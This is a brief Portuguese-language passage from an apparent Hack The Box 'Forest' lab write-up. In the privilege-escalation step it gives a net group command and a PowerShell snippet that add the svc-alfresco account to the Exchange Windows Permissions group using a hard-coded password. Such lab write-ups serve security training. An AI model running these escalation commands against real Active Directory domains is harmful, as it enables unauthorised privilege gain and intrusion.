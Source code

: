 ![Untitled](../assets/img/HTB/HTB-Forest/Untitled%202.png)

## Priv Esc

### **Entrando no grupo de permissões do Exchange Windows**

Vamos inserir o usuário ***svc-alfresco*** ao grupo ***Exchange Windows Permissions:***

`net group "Exchange Windows Permissions" svc-alfresco /add /domain`

ou podemos usar este comando:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco' -Credential $Cred
```
